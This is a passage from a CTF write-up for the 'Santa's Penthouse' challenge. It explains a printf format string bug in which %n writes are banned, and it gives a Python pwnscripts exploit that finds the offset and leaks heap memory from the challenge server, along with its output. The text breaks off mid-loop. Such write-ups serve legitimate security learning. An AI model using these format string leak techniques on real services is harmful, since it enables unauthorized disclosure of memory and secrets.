 # Santa's Penthouse (Work in Progress) [484]
SOLVED (**Osmium Award**!)

Bringing happiness and joy is a profitable business. So lucrative that Santa has amassed enough wealth to start bulding a brand new penthouse. Let's hope he finishes it before New Year's.

**Target**: nc challs.xmas.htsp.ro 2006

**Author**: PinkiePie1189

**Files**: chall

#### [`pwnscripts`](https://github.com/152334H/pwnscripts) assisted greatly in handling the format string exploits here. Try it!

## Menu
The binary has 3 options, each of which can only be used once.
1. Leave a message (`leave_message()`). This message is piped to `printf()` in a _limited_ format string bug, where `%n` **writes are banned**.
2. Steal a gift (`take_gift()`). This takes the contents of the remote file `secret` and dumps it into heap memory, with its location provided to the user as a `%p` pointer.
3. Exit. This calls `exit(0)`.

As far as I'm aware, `leave_message()` is impossible to exploit. As a result, I choose to leak out the contents of `secret` with a `%s` `printf()` call.
```python
from pwnscripts import *
context.binary = 'santa_penthouse'
def printf(s:bytes):
    r = remote('challs.xmas.htsp.ro', 2006)
    r.sendlineafter('Exit.\n', '1')
    r.sendafter('Santa?\n', s)
    r.recvuntil('message: ')
    return r.recvline()
offset = fsb.find_offset.buffer(printf, 200)

def leakfrom(dist:int):
    r = remote('challs.xmas.htsp.ro', 2006)
    r.sendlineafter('Exit.\n', '2')
    secret = unpack_hex(r.recvline())
    r.sendlineafter('Exit.\n', '1')
    log.info(repr(b'leaking ' + hex(secret+dist).encode() + b' i.e. ' + pack(secret+dist)))
    r.sendlineafter('Santa?\n', fsb.leak.deref_payload(offset, [secret+dist]))
    r.recvuntil('message: ')
    secret_data, = fsb.leak.deref_extractor(r.recvline())
    r.close()
    return secret_data+b'\0'
print(leakfrom(0))
```
This leads to the disturbing discovery that `secret` is an entire ELF:
```python
[+] Opening connection to challs.xmas.htsp.ro on port 2006: Done
[*] pwnscripts.fsb.find_offset for buffer: 8
[+] Opening connection to challs.xmas.htsp.ro on port 2006: Done
[*] b'leaking 0x5609f89464c0 i.e. \xc0d\x94\xf8\tV\x00\x00'
[*] Closed connection to challs.xmas.htsp.ro port 2006
b'\x7fELF\x02\x01\x01\x00'
```
Leaking the entire thing requires a shit ton of time if we're going to do it with `printf()` alone.
```python
with open('secret', 'r+b') as f:
    written = 0 # replace this if the script terminates halfway for whatever reason
    f.seek(written)
    while 1:
```